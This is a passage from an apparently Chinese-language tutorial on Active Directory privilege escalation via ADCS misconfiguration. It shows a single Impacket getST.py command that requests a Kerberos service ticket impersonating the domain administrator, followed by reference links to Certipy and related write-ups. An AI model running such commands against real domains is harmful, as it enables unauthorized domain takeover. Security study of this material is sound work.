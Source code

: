 请求票据

```bash
python3 getST.py -spn cifs/AD.penson.org -impersonate administrator -dc-ip 192.168.142.20 penson.org/penson$:penson123
```

[![](assets/1708508972-5cbe7f6fab2a3aefd1d015dc34f44b87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220171038-ea3af38e-cfcf-1.png)

参考文献  
[https://forum.butian.net/share/1583](https://forum.butian.net/share/1583)  
[https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/](https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/)  
[https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)  
[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

